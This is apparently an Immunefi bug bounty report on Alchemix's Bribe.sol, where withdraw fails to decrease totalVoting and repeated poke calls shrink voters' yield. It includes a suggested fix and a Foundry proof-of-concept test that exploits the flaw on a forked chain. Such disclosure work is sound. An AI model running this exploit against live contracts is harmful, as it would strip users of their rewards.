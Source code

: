 
# No accounting for totalVoting in `Bribe.sol::withdraw` function leads to loss of Yield

Submitted on Mon May 20 2024 20:17:27 GMT-0400 (Atlantic Standard Time) by @gladiator111 for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31527

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Bribe.sol

Impacts:
- Permanent freezing of unclaimed yield

## Description
## Brief/Intro
`Bribe.sol::withdraw` doesn't decrease `totalVoting` which can be exploited by a malicious user to permanently decrease yield.

## Vulnerability Details
In the function, `Bribe.sol::withdraw`,`totalVoting` is not decreased and checkpointed as expected. The Withdraw function is called when a user withdraws their vote. It should decrease totalVoting but it is not.
```solidity
    //Doesn't decrease TotalVoting
    function withdraw(uint256 amount, uint256 tokenId) external {
        require(msg.sender == voter);

        totalSupply -= amount;
        balanceOf[tokenId] -= amount;

        _writeCheckpoint(tokenId, balanceOf[tokenId]);
        _writeSupplyCheckpoint();

        emit Withdraw(msg.sender, tokenId, amount);
    }
```
This can be exploited by malicious user, as the user can call poke repeatedly (as it doesn't have same Epoch constraints) to indefinitely increase totalSupply. When totalVoting is increased the earned yield will also decrease as follows
```solidity
reward += (cp.balanceOf * tokenRewardsPerEpoch[token][_lastEpochStart]) / _priorSupply;   //_priorSupply is totalVoting in the epoch
```
Users will earn far less yield. The more times the `poke` function is called, the less the yield will become.
`Note - It doesn't even need a malicious user as some users will call poke after voting which will decrease yield`
## Impact Details
The Yield will be permanently frozen/lost.

## Suggestions/ Recommendations
modify the function as follows
```diff
    function withdraw(uint256 amount, uint256 tokenId) external {
        require(msg.sender == voter);

        totalSupply -= amount;
        balanceOf[tokenId] -= amount;
+       totalVoting -= amount;

+       _writeVotingCheckpoint();
        _writeCheckpoint(tokenId, balanceOf[tokenId]);
        _writeSupplyCheckpoint();

        emit Withdraw(msg.sender, tokenId, amount);
    }
```
## References
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Bribe.sol#L319-329

        
## Proof of concept
## Proof of Concept
Paste the following in Voting.t.sol and run using
```bash
forge test --match-test testYieldLoss -vvvv --fork-url $FORK_URL
```
```solidity
function testYieldLoss() public {
        uint256 tokenId1 = createVeAlcx(admin, TOKEN_1, MAXTIME, false);
        uint256 tokenId2 = createVeAlcx(beef, TOKEN_1, MAXTIME, false);
        address bribeAddress1 = voter.bribes(address(sushiGauge));
        address bribeAddress2 = voter.bribes(address(balancerGauge));
        createThirdPartyBribe(bribeAddress1, bal, 1e19);
        createThirdPartyBribe(bribeAddress1, aura, 1e19);
        createThirdPartyBribe(bribeAddress2, bal, 1e19);
        createThirdPartyBribe(bribeAddress2, aura, 1e19);

        address[] memory pools = new address[](2);
        pools[0] = sushiPoolAddress;
        pools[1] = balancerPoolAddress;
        uint256[] memory weights = new uint256[](2);
        weights[0] = 5000;
        weights[1] = 5000;

        address[] memory bribes = new address[](2);
        bribes[0] = address(bribeAddress1); 
        bribes[1] = address(bribeAddress2); 

        address[][] memory tokens = new address[][](2);
        tokens[0] = new address[](2);                
        tokens[0][0] = bal;
        tokens[0][1] = aura;
        tokens[1] = new address[](2);                
        tokens[1][0] = bal;
        tokens[1][1] = aura;

        hevm.prank(admin);
        voter.vote(tokenId1, pools, weights, 0);
        console.log(IBribe(bribeAddress1).totalVoting());
        hevm.prank(beef);
        voter.vote(tokenId2,pools,weights,0);
        console.log(IBribe(bribeAddress1).totalVoting());

        for(uint256 i =0;i<20;i++){                // calling poke again and again
        hevm.prank(admin);
        voter.poke(tokenId1);
        }
        console.log(IBribe(bribeAddress1).totalVoting());  //totalVotes increase significantly

        hevm.warp(block.timestamp + nextEpoch);

        uint256 beforeBalance = IERC20(bal).balanceOf(beef);
        hevm.prank(beef);
        voter.claimBribes(bribes, tokens, tokenId2);
        uint256 afterBalance = IERC20(bal).balanceOf(beef);
        console.log(afterBalance-beforeBalance);              //user gets far less yield
}
```